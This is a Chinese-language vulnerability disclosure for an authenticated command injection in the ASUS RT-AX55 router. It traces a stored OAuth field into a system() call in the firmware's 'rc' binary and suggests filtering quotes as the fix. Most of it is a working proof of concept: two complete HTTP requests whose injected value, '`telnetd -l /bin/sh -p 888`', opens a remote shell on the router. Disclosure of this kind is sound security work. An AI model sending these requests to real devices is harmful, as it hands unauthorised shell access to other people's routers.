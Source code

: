 # 0x01  漏洞描述 #

asus `rt-AX55` 路由器存在身份验证后的命令注入漏洞。

# 0x02  固件分析 #

固件下载：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
直接binwalk用-Me提取即可

# 0x03  代码分析 #

分析`sbin/rc`二进制文件，在函数`FUN_0004d76c`中，从http请求参数`action_script`获取`oauth_google_gen_token_email`值，进而进入函数`FUN_000bc540`。

![](./img//1.png)

在函数`FUN_000bc540`。

![](./img//2.png)

进入函数`FUN_000b9190`，从nvram中获得`oauth_google_auth_code`的值，最后将`oauth_google_auth_code`的值拼接到system函数。

![](./img//3.png)


# 0x04  漏洞复现 #

设置`oauth_google_auth_code`的值。

requst1:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 563
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=SlW0T8OWvKJQunduBTMwVRSNLoR7YW6; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=17%40qq.com&PM_SMTP_AUTH_USER=77&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1&oauth_google_auth_code='`telnetd%20-l%20/bin/sh%20-p%20888`'

![](./img//4.png)

触发命令注入。

requst2：

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 533
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=SlW0T8OWvKJQunduBTMwVRSNLoR7YW6; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail%3Boauth_google_gen_token_email&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=197%40qq.com&PM_SMTP_AUTH_USER=197&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1

![](./img//5.png)

![](./img//6.png)

# 0x05  漏洞修复 #

过滤`oauth_google_auth_code`的中单引号。
